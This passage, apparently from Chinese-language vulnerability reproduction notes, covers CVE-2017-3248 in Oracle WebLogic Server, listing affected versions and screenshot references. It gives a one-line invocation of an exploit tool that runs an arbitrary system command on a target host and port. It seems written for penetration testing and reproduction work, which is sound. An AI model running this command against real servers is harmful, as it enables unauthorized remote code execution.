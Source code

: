 修复建议：

升级服务器内核版本至最新。

### CVE-2017-3248

影响版本：

Oracle WebLogic Server 12.2.1.0
Oracle WebLogic Server 12.1.3.0
Oracle WebLogic Server 12.2.1.1
Oracle WebLogic Server 10.3.6.0

漏洞复现：

![Dingtalk_20220323152005](.\image\Dingtalk_20220323152005.jpg)

该漏洞可直接使用集成化工具实现一键利用。

本机执行：java -jar weblogic_cmd.jar -C "系统命令" -H 目标主机域名或IP -P 端口

![Dingtalk_20220323152011](.\image\Dingtalk_20220323152011.jpg)
